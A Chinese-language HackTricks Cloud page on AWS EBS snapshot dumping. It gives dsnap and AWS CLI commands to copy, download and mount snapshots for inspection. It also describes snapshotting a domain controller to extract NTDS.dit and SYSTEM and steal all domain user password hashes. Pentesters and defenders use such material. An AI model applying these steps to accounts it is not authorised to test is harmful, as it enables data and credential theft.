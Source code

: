 # AWS - EBS Snapshot Dump

{% hint style="success" %}
学习和练习 AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
学习和练习 GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过提交 PRs 分享黑客技巧到** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库。

</details>
{% endhint %}

## 本地检查快照
```bash
# Install dependencies
pip install 'dsnap[cli]'
brew install vagrant
brew install virtualbox

# Get snapshot from image
mkdir snap_wordir; cd snap_workdir
dsnap init
## Download a snapshot of the volume of that instance
## If no snapshot existed it will try to create one
dsnap get <instance-id>
dsnap --profile default --region eu-west-1 get i-0d706e33814c1ef9a
## Other way to get a snapshot
dsnap list #List snapshots
dsnap get snap-0dbb0347f47e38b96 #Download snapshot directly

# Run with vagrant
IMAGE="<download_file>.img" vagrant up #Run image with vagrant+virtuabox
IMAGE="<download_file>.img" vagrant ssh #Access the VM
vagrant destroy #To destoy

# Run with docker
git clone https://github.com/RhinoSecurityLabs/dsnap.git
cd dsnap
make docker/build
IMAGE="<download_file>.img" make docker/run #With the snapshot downloaded
```
{% hint style="danger" %}
**注意** `dsnap` 不允许你下载公共快照。要规避这一点，你可以在你的个人账户中复制该快照，然后下载：
{% endhint %}

{% code overflow="wrap" %}
```bash
# Copy the snapshot
aws ec2 copy-snapshot --source-region us-east-2 --source-snapshot-id snap-09cf5d9801f231c57 --destination-region us-east-2 --description "copy of snap-09cf5d9801f231c57"

# View the snapshot info
aws ec2 describe-snapshots --owner-ids self --region us-east-2

# Download the snapshot. The ID is the copy from your account
dsnap --region us-east-2 get snap-027da41be451109da

# Delete the snapshot after downloading
aws ec2 delete-snapshot --snapshot-id snap-027da41be451109da --region us-east-2
```
{% endcode %}

有关此技术的更多信息，请查看原始研究：[https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/](https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/)

你可以使用Pacu通过模块[ebs\_\_download\_snapshots](https://github.com/RhinoSecurityLabs/pacu/wiki/Module-Details#ebs\_\_download\_snapshots)来完成此操作。

## 在AWS中检查快照

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2  --snapshot-id snap-0b49342abd1bdcb89
```
{% endcode %}

**在你控制的EC2虚拟机中挂载它**（必须与备份的副本在同一区域）：

步骤1：通过进入EC2 –> Volumes创建一个你喜欢的大小和类型的新卷。

要执行此操作，请遵循以下命令：

* 创建一个EBS卷以附加到EC2实例。
* 确保EBS卷和实例在同一区域。

步骤2：右键点击创建的卷，选择“attach volume”选项。

步骤3：从实例文本框中选择实例。

要执行此操作，请使用以下命令：

* 附加EBS卷。

步骤4：登录到EC2实例并使用命令`lsblk`列出可用磁盘。

步骤5：使用命令`sudo file -s /dev/xvdf`检查卷是否有数据。

如果上述命令的输出显示“/dev/xvdf: data”，则表示卷是空的。

步骤6：使用命令`sudo mkfs -t ext4 /dev/xvdf`将卷格式化为ext4文件系统。或者，你也可以使用命令`sudo mkfs -t xfs /dev/xvdf`使用xfs格式。请注意，你应该使用ext4或xfs之一。

步骤7：创建一个你选择的目录来挂载新的ext4卷。例如，你可以使用名称“newvolume”。

要执行此操作，请使用命令`sudo mkdir /newvolume`。

步骤8：使用命令`sudo mount /dev/xvdf /newvolume/`将卷挂载到“newvolume”目录。

步骤9：切换到“newvolume”目录并检查磁盘空间以验证卷挂载。

要执行此操作，请使用以下命令：

* 切换到`/newvolume`目录。
* 使用命令`df -h .`检查磁盘空间。此命令的输出应显示“newvolume”目录中的可用空间。

你可以使用Pacu的模块`ebs__explore_snapshots`来执行此操作。

## 在AWS中检查快照（使用cli）

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2 --snapshot-id <snap-0b49342abd1bdcb89>

# Attach new volume to instance
aws ec2 attach-volume --device /dev/sdh --instance-id <INSTANCE-ID> --volume-id <VOLUME-ID>

# mount the snapshot from within the VM

sudo file -s /dev/sdh
/dev/sdh: symbolic link to `xvdh'

sudo file -s /dev/xvdh
/dev/xvdh: x86 boot sector; partition 1: ID=0xee, starthead 0, startsector 1, 16777215 sectors, extended partition table (last)\011, code offset 0x63

lsblk /dev/xvdh
NAME     MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT
xvdh     202:112  0    8G  0 disk
├─xvdh1  202:113  0  7.9G  0 part
├─xvdh14 202:126  0    4M  0 part
└─xvdh15 202:127  0  106M  0 part

sudo mount /dev/xvdh1 /mnt

ls /mnt
```
{% endcode %}

## Shadow Copy

任何拥有 **`EC2:CreateSnapshot`** 权限的 AWS 用户都可以通过创建**域控制器的快照**，将其挂载到他们控制的实例，并**导出 NTDS.dit 和 SYSTEM** 注册表配置单元文件来窃取所有域用户的哈希值，以便与 Impacket 的 secretsdump 项目一起使用。

你可以使用这个工具来自动化攻击：[https://github.com/Static-Flow/CloudCopy](https://github.com/Static-Flow/CloudCopy) 或者在创建快照后使用之前的技术之一。

## References

* [https://devopscube.com/mount-ebs-volume-ec2-instance/](https://devopscube.com/mount-ebs-volume-ec2-instance/)

{% hint style="success" %}
学习和练习 AWS Hacking：<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
学习和练习 GCP Hacking：<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或在 **Twitter** 🐦 上**关注**我们 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过提交 PRs 分享黑客技巧到** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库。

</details>
{% endhint %}
